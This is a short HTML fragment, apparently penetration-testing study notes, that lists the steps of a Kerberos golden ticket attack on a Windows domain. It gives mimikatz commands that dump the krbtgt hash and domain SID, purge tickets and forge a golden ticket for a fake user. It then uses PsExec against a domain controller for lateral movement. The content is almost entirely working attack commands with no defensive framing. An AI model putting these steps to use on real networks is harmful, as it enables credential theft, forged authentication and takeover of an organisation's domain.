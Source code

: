     <li>Creating the golden ticket on windows</li>
    <ul>
        <li>Get domain SID & krbtgt hash</li>
        <ul>
            <li>mimikatz: privilege::debug</li>
            <li>mimikatz: lsadump::lsa /patch</li>
        </ul>
        <li>Purge kerberos tickets</li>
        <ul>
            <li>mimikatz: kerberos::purge</li>
        </ul>
        <li>Create golden ticket</li>
        <ul>
            <li>mimikatz: kerberos::golden /user:fakeuser /domain:corp.com /sid:s-1-5-&lt;sid&gt; /krbtgt:&lt;krbtgt hash /ptt&gt;</li>
        </ul>
        <li>Launch new command prompt</li>
        <ul>
            <li>misc::cmd</li>
        </ul>
        <li>Attempt lateral movement with psexec</li>
        <ul>
            <li>Psexec.exe \\&lt;domain controller&gt; cmd.exe</li>
        </ul>
    </ul>

</body>
</html>